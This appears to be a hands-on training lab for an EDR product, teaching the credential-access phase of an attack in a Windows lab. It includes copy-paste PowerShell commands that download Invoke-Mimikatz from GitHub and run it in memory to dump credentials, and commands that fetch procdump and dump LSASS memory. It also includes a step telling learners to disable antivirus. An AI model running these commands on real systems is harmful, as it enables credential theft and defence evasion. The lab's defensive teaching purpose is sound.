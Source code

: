 ```yaml
---
Title: ATT&CK - Credential Access & Exfiltration Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/14/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1
- live.sysinternals.com/procdump.exe
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Credential Access consists of techniques for stealing credentials like account names and passwords. Techniques used to get credentials include keylogging or credential dumping. Using legitimate credentials can give adversaries access to systems, make them harder to detect, and provide the opportunity to create more accounts to help achieve their goals

The virtual machine has some dummy users to mimic a specific type of workstation that might be found in a business enviroment:

Dummy users:
- Joe from Accounting: 
  - `net user joe Password1! /ADD /FULLNAME:"Joe - Accounting"`
- Samson from Accounting
  - `net user samson Password1! /ADD /FULLNAME:"Samson - Accounting"`
- Brenda from IT
  - `net user brenda Password1! /ADD /FULLNAME:"Branda - IT Helpdesk"`

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Credential Access phase of an attack
2. Demonstrate the use of common tools for stealing passwords
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Credential Dumping with Mimikatz
> *Mimikatz is one of the most well known credential access and dumping tools used by hackers today. It can extract passwords, unencode them and sometimes unencrypt them.*

w> Mimikatz almost always will flag on antivirus so it's important to disable antivirus tools prior to running it.

Execute a **Credential Dump with Mimikatz**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Mimikatz
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	$MimikatzURL = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'
	$cmd = "IEX (New-Object Net.WebClient).DownloadString('$MimikatzURL'); Invoke-Mimikatz -DumpCreds; Start-Sleep -m $n"
	powershell.exe -command $cmd
	```



### 2. Credential Dumping with procdump.exe
> *Because Mimikatz is so commonly found by antivirus, some attackers will use built-in windows utilities to dump the memory of the security process, LSASS.exe, and then use mimikatz on the dump following exfiltration.*

Execute a **Credential Dump with Procdump**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Extract LSASS memory with Procdump
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	Write-Host -ForegroundColor Cyan  "Downloading ProcDump.exe"
	Invoke-WebRequest -Uri http://live.sysinternals.com/procdump.exe -OutFile "$Env:temp\procdump.exe"
	Write-Host "Dumping LSASS memory with ProcDump.exe to extract passwords and tokens"
	& "$Env:temp\procdump.exe" -ma lsass.exe lsass.dmp -accepteula
	```
